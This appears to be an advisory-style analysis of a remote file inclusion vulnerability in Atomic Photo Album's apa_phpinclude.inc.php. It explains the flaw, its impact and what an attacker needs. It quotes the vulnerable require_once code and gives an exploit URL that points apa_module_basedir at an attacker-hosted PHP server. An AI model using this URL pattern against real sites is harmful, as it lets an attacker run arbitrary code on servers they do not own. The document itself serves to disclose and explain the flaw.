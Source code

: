 Based on the provided content, here's an analysis of the vulnerability:

**Vulnerability Details:**

*   **Root Cause:** The vulnerability is a remote file inclusion flaw in the `apa_phpinclude.inc.php` file of Atomic Photo Album (APA). This file uses the `apa_module_basedir` parameter in a `require_once` statement without proper sanitization, allowing an attacker to include a remote file.
*   **Weaknesses:**
    *   **Remote File Inclusion (RFI):** The primary vulnerability is the ability to include a remote file by manipulating the `apa_module_basedir` parameter.
    *   **Lack of Input Sanitization:** The application fails to validate or sanitize user-supplied input, specifically the `apa_module_basedir` parameter, before using it in a `require_once` statement.
*  **Impact of Exploitation:**
    *   **Remote Code Execution (RCE):** By including a malicious PHP file from a remote server, an attacker can execute arbitrary code on the server hosting the vulnerable application. This could lead to complete system compromise, data theft, or other malicious activities.
*   **Attack Vectors:**
    *   **HTTP GET Request:** The vulnerability is exploited through a crafted HTTP GET request, where the `apa_module_basedir` parameter is set to a URL pointing to a malicious PHP file controlled by the attacker.
*   **Required Attacker Capabilities/Position:**
    *   **Network Access:** The attacker needs network access to the vulnerable server hosting Atomic Photo Album.
    *   **Knowledge of the Vulnerable Component:** The attacker needs to know the path to `apa_phpinclude.inc.php` and the vulnerable parameter `apa_module_basedir`.
    *   **Ability to Host a Malicious PHP File:** The attacker needs a server where they can host a malicious PHP file.

**Technical Details:**

The vulnerable code snippet in `apa_phpinclude.inc.php` is:
```php
require_once("apa_authadm.inc.php");
  else
    require_once("apa_auth.inc.php");
....else{
require_once("$apa_module_basedir/apa_config.inc.php");
...

}
?>
```

The exploit is triggered by accessing the following URL
```
http://[victim]/[dir]/apa_phpinclude.inc.php?apa_module_basedir=http://[h4x0r_b0x]/
```
where `[victim]` is the target server running APA, `[dir]` is the directory where APA is installed and `[h4x0r_b0x]` is the server hosting the attacker's malicious PHP file.

**Additional Notes:**

*   The exploit information provides a specific URL that demonstrates the vulnerability.
*   The vendor was notified about the vulnerability.
*   The vulnerability affects all versions of Atomic Photo Album (APA).

This analysis provides more technical detail than the placeholder CVE description, detailing the vulnerable code, method of exploitation, and potential impact of the vulnerability.
